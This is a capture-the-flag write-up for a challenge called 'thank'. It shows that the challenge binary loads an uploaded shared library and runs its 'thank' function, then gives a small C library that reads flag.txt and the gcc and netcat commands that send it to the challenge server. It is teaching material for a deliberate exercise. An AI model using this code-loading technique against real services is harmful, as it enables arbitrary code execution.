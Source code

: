 rev / thank

I am so grateful for your precious files!

nc challs.pwnoh.io 13373

# First look

Connecting to netcat we get :
```
What is the size of your file (in bytes)?
1234
Send your file!
azerty
Thanks for your file!
```

Ok so we have to send a file.

# Decompiling

Lets open binary ninja and take a look.
- We find the function asking for the file size : [file size function](ask_file_size.png)
- Space for the file is malloc'ed
- The file is then asked for and read  

![ask for file](ask_file.png)


- After some checks and I believe a write to the disk we get to the interesting part

# Exec function

We find an interesting function, after a bit of reading the manual we understand that `dlopen` opens a shared library object, `dlsym` finds a symbol in it and returns its address which is then executed by `rax3()`.
So we need to send a shared library object which contains a symbol `thank` (a function for example), and that function will get executed.
Let's do it !!

![exec function](exec_function.png)

# Getting the flag

We write a small c program with a thank function.

```c
#include <stdio.h>

void thank(void){
    FILE* file = fopen("flag.txt", "r");
    char buff[101];
    fgets(buff, 100, file);
    printf("%s", buff);
}
```

We then compile it and send it to the server.

```bash
gcc -shared -fPIC -o exploit.so exploit.c
(echo `du -b exploit.so`; cat exploit.so) | nc challs.pwnoh.io 13373
```

And boom we get the flag (I didn't save it so can't put it here).
